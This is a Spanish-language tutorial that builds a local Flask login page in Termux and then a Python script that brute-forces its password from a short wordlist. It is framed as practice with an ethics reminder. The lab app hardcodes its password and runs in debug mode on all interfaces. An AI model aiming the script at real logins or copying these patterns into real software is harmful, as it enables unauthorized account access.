 # LABORATORIO365
 
### 1. Configuración de Termux

Primero, asegúrate de tener Python y Flask instalados en Termux. Si no lo has hecho, ejecuta los siguientes comandos:

```bash
pkg install python
pip install Flask
```

### 2. Crear la Página Web

Crea un archivo llamado `app.py` que contendrá el servidor Flask y la lógica de la página de inicio de sesión:

```bash
nano app.py
```

Luego, inserta el siguiente código:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

# Contraseña correcta
correct_password = "secreta123"

# Página de inicio de sesión
html_template = """
<!doctype html>
<html>
<head>
    <title>Prueba de Penetración</title>
</head>
<body>
    <h1>Iniciar Sesión</h1>
    <form method="POST">
        <input type="password" name="password" placeholder="Contraseña" required>
        <button type="submit">Entrar</button>
    </form>
    {% if message %}
        <p>{{ message }}</p>
    {% endif %}
</body>
</html>
"""

@app.route('/', methods=['GET', 'POST'])
def login():
    message = ""
    if request.method == 'POST':
        password = request.form.get('password')
        if password == correct_password:
            message = "¡Acceso concedido!"
        else:
            message = "Contraseña incorrecta. Inténtalo de nuevo."
    return render_template_string(html_template, message=message)

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

Este código crea una simple página web que solicita una contraseña. Si se introduce la contraseña correcta (`secreta123`), se concede acceso; de lo contrario, se muestra un mensaje de error.

### 3. Ejecutar la Aplicación

Guarda y cierra el archivo `app.py`. Luego, ejecuta el servidor Flask con el siguiente comando:

```bash
python app.py
```

La aplicación estará disponible en `http://127.0.0.1:5000/`.

### 4. Crear un Script en Python para Averiguar la Contraseña

Ahora, crearemos un script en Python que intente averiguar la contraseña. Crea un nuevo archivo llamado `brute_force.py`:

```bash
nano brute_force.py
```

Inserta el siguiente código:

```python
import requests

# URL de la página de inicio de sesión
url = "http://127.0.0.1:5000/"
# Lista de contraseñas a probar (puedes agregar más)
passwords = ["123456", "password", "123456789", "secreta123", "qwerty", "abc123"]

for password in passwords:
    response = requests.post(url, data={"password": password})
    
    if "¡Acceso concedido!" in response.text:
        print(f"Contraseña encontrada: {password}")
        break
    else:
        print(f"Contraseña incorrecta: {password}")
```

### 5. Ejecutar el Script de Fuerza Bruta

Guarda y cierra el archivo `brute_force.py`. Asegúrate de que la aplicación Flask esté en ejecución y luego ejecuta el script de fuerza bruta:

```bash
python brute_force.py
```

### 6. Consideraciones Éticas

Recuerda que realizar pruebas de penetración y ataques de fuerza bruta deben hacerse solo en entornos donde tengas permiso explícito para hacerlo. El uso indebido de estas técnicas puede tener consecuencias legales.

### Resumen

Hemos creado una sencilla aplicación web de inicio de sesión con Flask y un script en Python para intentar averiguar la contraseña mediante un ataque de fuerza bruta. Esto es solo para fines educativos y de práctica. ¡Asegúrate de usarlo de manera responsable!
